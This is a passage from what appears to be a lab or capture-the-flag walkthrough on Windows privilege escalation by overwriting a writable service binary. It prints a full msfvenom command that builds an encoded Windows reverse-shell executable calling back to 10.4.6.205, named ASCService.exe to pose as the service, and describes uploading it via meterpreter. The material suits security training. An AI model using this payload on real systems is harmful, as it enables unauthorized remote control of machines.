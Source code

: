 First, we use **msfvenom** to generate the reverse_shell payload as a windows executable file. This can be done with the following command.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.6.205 LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

<img style="float: left;" src="screenshots/screenshot16.png">

We save the output payload as **ASCService.exe** as it is the file that we want to replace!

Next, we upload the file onto the target machine through meterpreter.

<img style="float: left;" src="screenshots/screenshot17.png">

Navigating to the directory, which is writable, we can see the file that we have to replace:

<img style="float: left;" src="screenshots/screenshot18.png">
